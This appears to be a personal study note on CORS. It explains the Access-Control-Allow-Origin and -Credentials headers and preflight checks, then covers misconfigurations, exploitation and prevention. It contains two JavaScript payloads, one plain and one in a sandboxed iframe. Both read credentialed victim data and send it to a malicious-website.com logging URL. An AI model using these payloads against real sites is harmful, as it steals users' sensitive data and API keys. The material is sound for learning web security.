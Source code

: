 
### General Notes

> Cross-Origin Resource Sharing.
> Browser mechanism that enables controlled access to resources located outside of a domain, and adds flexibility to [[Same Origin Policy (SOP)]].

> The CORS [[Protocol]] uses [[HTTP#Header]]s that define trusted origins, and properties for each with given [[Authentication]] and [[Access Control]] permissions.
> These headers are used between the browser and the web site located in a different origin. (cross-origin).

> CORS relaxes the [[Same Origin Policy (SOP)]] for [[HTTP]] requests between websites with different domains through the use of HTTP headers.
> CORS doesn't protect against [[CSRF]].

---

### `Access-Control-Allow-Origin` (ACAO) response header

> This header is returned by a server when a website requests resources across domains with the `Origin` header.
> The browser compares values in this header with the requesting web `Origin` header and gives permissions.

The `Access-Control-Allow-Origin` header can have values of:
* Multiple origins. (No browser supports this).
* `null`
* `*`

###### Transferring Cookies, Certificates, and Credentials

> CORS allows for sharing credentials or authorization [[Cookies]] through the response header `Access-Control-Allow-Credentials` (ACAC).
> If it is set to true in the response, then the cookies being sent in the request will be allowed to be read.
> Using the header `Access-Control-Allow-Origin` set to the value `*` cannot be combined with `Access-Control-Allow-Credentials` set to `true`.

###### Pre-Flight Checks

> Used to protect legacy resources.
> When a cross-domain request uses a non standard [[HTTP]] method or headers, this request is preceded by one with the `OPTIONS` method, and an initial check is made regarding the permitted methods and headers.
> The server returns allowed methods and the trusted origin.

> A cross-domain request will be first preceded by `OPTIONS` request with the method and headers used of this request.
> The server responds with the allowed origin, the allowed methods, the allowed verbs, and the caching time of the preflight response.

---

### CORS Vulnerabilities

> Some applications simply read the `origin` header from the incoming request, and then respond with the ACAO header set to the value in that `origin` header.
> They can also respond with the ACAC header to allow including [[Cookies]].
> If a [[CSRF]] token or [[Application Programming Interface (API)]] key is included in the response, use this payload.

```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

###### Error parsing Origin headers

> Supporting multiple origins usually works by having a whitelist.
> A request with the origin header has its value compared against whitelist, if it is found, then the ACAO header is added to the response.
> This matching with the whitelist can be played around by appending to the end or the beginning, or by using regular expressions.
* The beginning by testing if it allows all subdomains.
* To the end if it simply checks the required origin is present.

> Sometimes the value `null` is whitelisted.
> Browsers can send `null` in the origin header in:
* Cross-origin redirects.
* Requests from serialized data.
* Requests using `file:` [[Protocol]].
* Sandboxed cross-origin requests.

> If the server responds with ACAO with value `null`, then we can bypass it by generating a cross-origin request containing `null` in the origin header satisfying the whitelist.
> Adding the payload we have in an `iframe` sandbox will appear as if it is coming from the null origin.

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
}; </script>">
</iframe>
```

###### Exploiting [[Cross Site Scripting (XSS)]] via CORS

> If a website trusts an origin that is vulnerable to [[Cross Site Scripting (XSS)]], attacker can inject JavaScript that uses CORS.
> Given the following request:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

> If the server responds with:
```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

> Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
> `cors-stuff` is the CORS payload that issues a request above. [[CORS#CORS Vulnerabilities]].

###### Breaking TLS ([[Transport Layer]] Security)

> Application that has [[HTTPS]] whitelists a subdomain using [[HTTP]].
> Attackers that can intercept traffic between these two locations can compromise the victims interaction with the application.
> Methodology: [(TLS)](https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors).

---

### Preventing CORS

* Proper configuration of cross-originr requests with the properly specified ACAO headers.
* Only allow truster websites with the hedaers.
* Avoid whitelisting the `null` value in the ACAO header.
* Avoid wildcards in internal networks. (`*`).
* Not a replacement for server-side protection.

---
